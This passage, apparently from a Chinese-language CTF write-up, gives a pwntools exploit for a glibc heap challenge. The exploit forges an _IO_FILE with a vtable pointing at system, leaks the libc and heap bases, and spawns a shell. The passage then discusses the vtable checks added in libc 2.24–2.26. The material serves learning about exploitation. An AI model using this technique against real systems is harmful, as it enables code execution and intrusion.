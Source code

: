 ```python
	file+=p32(0)                       #unused2
	file+=p64(0)*2                     #unused2
	file+=p64(heap+0x5d8-0x18)         #vtable
	file+=p64(0)
	file+=p64(libc.sym["system"])
	file+=p64(0)
	return file   
add(0x18,"cat03")
show()
payload = "A"*0x18
payload += p64(0x21)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0xfa1)
payload += p64(0)
edit(0x18+0x8*6,payload[:-1])
add(0x1000,"giles")
add(0x400,"Anderso")
show()
libc.address = u64(ru("\x7f")[-6:]+"\x00\x00")-1640-0x10 - libc.sym["__malloc_hook"]
info("libc base 0x%x"%libc.address)
payload = ""
payload += "A"*0x10
payload += "A"*7
edit(0x18,payload)
show()
ru("AAAAAAAAAAAAAAAAAAAAAAA\n")
heap = u64(r(6)+"\x00\x00")-0xc0
info("heap base 0x%x"%heap)

payload = "\x00"*0x408
payload += p64(0x21)
payload += p64(0)
payload += p64(0)
payload += file1()
edit(len(payload),payload[:-1])
r()
sl("1")
sh()
```
## Libc 2.24-2.26


由于在宏上对jump进行了加强,使得通过`vtable`调用`__OVERFLOW_`时检测了vtable的范围
```c
# define _IO_JUMPS_FUNC(THIS) \
  (IO_validate_vtable                                                   \
   (*(struct _IO_jump_t **) ((void *) &_IO_JUMPS_FILE_plus (THIS)	\
			     + (THIS)->_vtable_offset)))
```
```c
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
```